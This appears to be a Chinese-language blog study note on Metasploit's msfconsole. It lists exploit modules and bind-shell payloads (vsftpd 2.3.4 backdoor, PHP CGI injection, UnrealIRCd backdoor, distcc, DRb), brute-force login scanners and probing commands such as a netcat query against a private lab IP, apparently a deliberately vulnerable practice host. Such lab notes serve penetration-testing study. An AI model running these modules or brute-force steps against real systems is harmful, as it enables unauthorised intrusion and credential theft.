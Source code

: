 ```yaml
---
layout: post
title:  "msfconsole"
date:   2018-12-04 00:00:01 +0800
categories: security_test
tags: msfconsole
description: msfconsole初学
---
```

3.1	Vsftp 2.3.4 版本

Module：exploit/unix/ftp/vsftpd_234_backdoor

Payload：cmd/unix/interact

3.2	Web服务（80端口）

输入参数：

3.3	Php CGI注入

Module：exploit/multi/http/php_cgi_arg_injection

Payload：php/meterpreter/bind_tcp

3.4	SMB目录共享

139端口，445端口这两个都是smb类型的，是共享服务，首选我们需要知道它的共享目录有哪些

Module：auxiliary/scanner/smb/smb_enumusers

Module：auxiliary/admin/smb/samba_symlink_traversal

port 22 search ssh

use auxiliary/scanner/ssh/ssh_login

show options

set rhosts 192.168.190.130

set user_file /tmp/user.txt

set pass_file /tmp/passwd.txt

run


3.5	Msfable后门

telnet 192.168.190.130

3.6	JAVA反序列化



3.7	Distccd服务远程命令(不建议)

Module：exploit/unix/misc/distcc_exec

Payload：cmd/unix/bind_perl

3.8	Postgresql弱密码

use auxiliary/scanner/postgres/postgres_login

3.9	VNC服务

port 5900 vnc

use auxiliary/scanner/vnc/vnc_login

3.10	IRC服务

port 6667 IRC

use exploit/unix/irc/unreal_ircd_3281_backdoor

3.11	Tomcat服务

use auxiliary/scanner/http/tomcat_mgr_login

set user_file /tmp/user.txt

set pass_file /tmp/passwd.txt

set rport 8180


3.12	Drb服务

Module：exploit/linux/misc/drb_remote_codeexec

Payload：cmd/unix/bind_perl

3.13

redis

./redis-cli -p 30000 -h 192.168.190.130

info

3.14

echo envi|nc 192.168.190.130 2181
